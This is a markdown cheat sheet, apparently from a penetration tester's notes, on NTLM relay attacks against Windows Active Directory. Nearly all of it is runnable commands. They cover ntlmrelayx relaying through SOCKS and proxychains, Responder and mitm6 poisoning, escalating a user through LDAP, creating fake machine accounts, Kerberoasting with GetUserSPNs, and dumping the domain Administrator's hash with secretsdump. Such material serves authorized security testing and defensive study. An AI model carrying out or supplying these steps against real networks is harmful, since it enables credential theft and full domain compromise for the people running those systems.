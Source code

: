 # How To NTLMRelay

## Notes
 - Configure /etc/proxychains.conf to not proxy DNS and use local port 1080:
   `#proxy_dns`
   `socks4 127.0.0.1 1080`   
 - Start ntlmrelayx with options socks:   
   `ntlmrelayx.py -tf targets.txt -smb2support -socks`  
 - Targets (systems without SMB signing) can be gathered with:   
   `crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt`   
 - Try to escalate a given user:   
   `ntlmrelayx.py -t ldap://dc.domain.local --escalate-user USER --remove-mic -smb2support`   
 - Run secretsdump on domain administrator:   
   `secretsdump.py winlab.csnc.ch/hostname$@dc.winlab.csnc.ch -just-dc -just-dc-user Administrator`   
   
 Note: For the poisoning of broadcast messages, run Responder at the same time, but with SMB and HTTP server disabled for Responder. This is not required if you do targeted relaying where you trigger the victims connection to your ntlmrelayx host.   
 - Start Responder.py with SMB and HTTP disabled: (disable them in /root/vkoch/Responder/Responder.conf)   
   `sudo /opt/Responder/Responder.py -I eth1 -w -r -f -d`   

## Using the socks connection
 - Once there is an authenticated socks connection (check with command "socks" in ntlmrelayx console), it can be used with proxychains:   
   `proxychains smbexec.py 'DOMAIN/user:gugus@<target-ip>'`   
   `proxychains secretsdump.py random@100.2.2.2`   
   
- If you relay a machine account:   
   `proxychains smbexec.py 'DOMAIN/MACHINE$:gugus@<target-ip>'`   

## IPv6 DHCP poisoning
- Start rogue DHCPv6, where you specify the domain of your target:   
  `mitm6 -d domain.local`   
- Start ntlmrelayx to e.g. target LDAP on the DC (for querying AD information):   
  `sudo ntlmrelayx.py -6 -t ldap://dc01 --no-smb-server -wh attacker-wpad -h`   
## Fake machine account creation
- Start ntlmrelayx targeting a DC to add a computer:   
  `sudo ntlmrelayx.py -6 -t ldap://dc01 --add-computer --no-smb-server -wh attacker-wpad -h`   
- Run Responder with DHCP server:   
  `./Responder.py -I eth0 -Pdv`   
- After the new computer was created, you can use this to e.g. query SPNs in the domain:   
  `GetUserSPNs.py 'domain.local/NEWCOMPUTER$' -dc-ip 10.10.0.1`  
Note: Remember to cleanup the computer afterwards! (requires DA)	  
